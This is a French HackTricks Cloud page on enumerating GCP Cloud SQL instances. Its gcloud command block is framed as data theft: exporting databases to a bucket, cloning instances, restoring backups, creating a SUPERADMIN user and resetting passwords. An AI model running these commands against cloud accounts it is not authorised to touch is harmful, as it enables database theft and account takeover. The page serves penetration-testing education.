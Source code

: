 # GCP - Enumération SQL

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## [Cloud SQL](https://cloud.google.com/sdk/gcloud/reference/sql/)

Les instances Cloud SQL sont des **bases de données MySQL, PostgreSQL** et **SQL Server relationnelles entièrement gérées**. Google gère la réplication, la gestion des correctifs et des bases de données pour assurer la disponibilité et les performances. [En savoir plus](https://cloud.google.com/sql/docs/).

Si vous trouvez l'une de ces instances en cours d'utilisation avec une adresse IP publique, vous pouvez essayer de **y accéder depuis Internet** car elles pourraient être mal configurées et accessibles.

```bash
# Cloud SQL
gcloud sql instances list
gcloud sql databases list -i <INSTANCE>
gcloud sql databases describe -i <INSTANCE> <DB>
gcloud sql backups list -i <INSTANCE>
gcloud sql backups describe -i <INSTANCE> <DB>

# Vol de données
## Export
gcloud sql export sql <DATABASE_INSTANCE> gs://<CLOUD_STORAGE_BUCKET>/cloudsql/export.sql.gz --database <DATABASE_NAME>
## Clone
gcloud instances clone <SOURCE> <DESTINATION>
## Backup
gcloud sql backups restore BACKUP_ID --restore-instance <RESTORE_INSTANCE>
gcloud sql instances clone restore-backup <SOURCE> <DESTINATION>
## Abus d'utilisateurs
gcloud sql users list -i <INSTANCE>
gcloud sql users create SUPERADMIN -i <INSTANCE>
gcloud sql users set-password <USERNAME> -i <INSTANCE> --password <PWD>
```

### Exfiltrer des données de la base de données

À titre d'exemple, vous pouvez suivre [la documentation de Google](https://cloud.google.com/sql/docs/mysql/import-export/exporting) pour exfiltrer une base de données Cloud SQL. 

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>